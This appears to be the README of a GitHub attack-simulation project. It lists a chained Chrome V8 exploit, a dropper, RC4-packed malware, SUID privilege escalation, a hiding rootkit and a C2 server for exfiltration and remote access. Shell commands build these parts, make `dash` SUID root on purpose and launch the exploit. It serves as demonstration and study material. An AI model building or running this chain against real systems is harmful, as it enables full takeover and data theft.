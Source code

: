 # cyber_attack_simulation
Attack simulation involving rce &amp; kernel lpe exploits and malware + rootkit to exfil data

This project demonstrates how a malicious attacker can chain together multiple adversary tactics and
techniques to completely take over a system.

#### Features
* Initial RCE via CVE-2019-5782 (Chrome JIT compiler bug)
* RCE automatically executes a small dropper stub that pulls down and executes malware
* This malware was packed/encrypted using RC4 as an anti-re feature, and begins by unpacking itself
* It sets up persistence, does some anti-debug checks, and privesc's using non-standard suid
  binaries found on the target system
* Once root privileges are obtained a custom rootkit is loaded which completely hides the malware
  from both process listings and the filesystem
* Finally for the actual functionality, the malware communicates with a C2 to receive and execute
  commands
* The attack was supposed to mimick the recent Korean apt targeting security researchers, so one of
  the supported features is to search the disk for all files of a specific format, and exfiltrating
  them to the C2. 
* Another feature that it supports is a remote access trojan to allow manual access to thet arget,
  and the ability to be completely wiped from the system via an 'uninstall' command from the C2.

![attack_graph](attack_graph.png)


#### Demo Setup Instructions
```sh
# Install dependencies
sudo apt install python3-pip3 python-pip git
git clone https://github.com/seal9055/cyber_attack_simulation && cd cyber_attack_simulation
pip3 install -r requirements.txt
echo "export PATH=$PATH:$HOME/.local/bin/" >> ~/.bashrc

# Spawn C2
python3 C2/src/main.py
Open a webbrowser and navigate to '127.0.0.1:5000/cmd'

# Compile malware
cd malware/src
make build
cd ../..

# Compile rootkit
cd rootkit
./build.sh rootkit
cd ..

# Use Crypter to encrypt the malware
./crypter/bin/crypter malware/src/dist/malware malware.bin

# Setup directory structure for C2
cp rootkit/rootkit.ko C2/src/static
cp ./cryper/bin/malware.bin C2/src/static

# Setup vulnerable suid binary
sudo chown root ./dash
sudo chmod u+s ./dash

# Build vulnerable chrome-v8 version
git clone https://chromium.googlesource.com/chromium/tools/depot_tools.git
echo "export PATH=/opt/depot_tools:$PATH" >> ~/.bashrc
gclient sync
fetch V8
cd V8
git reset --hard b474b3102bd4a95eafcdb68e0e44656046132bc9
gclient
tools/dev/v8gen.py x64.release
ninja -C ./out.gn/x64.release d8

# Start exploit/malware
python3 C2/src/main.py
./V8/out.gn/x64.release/v8 ./dropper/exploit.js

# Access C2 at localhost:5000
```
